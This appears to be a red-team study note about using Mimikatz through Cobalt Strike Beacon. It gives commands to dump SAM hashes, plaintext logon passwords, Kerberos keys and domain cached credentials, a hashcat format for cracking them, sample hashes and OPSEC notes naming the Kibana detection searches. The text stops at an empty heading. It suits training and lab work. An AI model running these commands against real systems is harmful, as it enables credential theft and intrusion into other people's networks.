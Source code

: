 

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

Dump the Kerberos encryption keys of currently logged on users, it's more common to use Kerberos in modern systems so we can blend in easier.  These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

> [!info] 
> There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.
> The order is :
> 
> ```
aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
rc4_md4           59fc0f884922b4ce376051134c71e22c
rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c2c

> [!warning] 
> Requires elevated privileges.

> [!danger] 
> OPSEC: This modules will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 


## Domain Cached Credentials

The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.
```
2100|Domain Cached Credentials 2 (DCC2), MS Cache 2|$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f
```

> [!warning] 
>  DCC is much much slower to crack than NTLM.

> [!danger] 
> This module will open a handle to the SECURITY registry hive.  Use the "Suspicious SECURITY Hive Handle" saved search in Kibana to see them.

## Extracting Kerberos Tickets

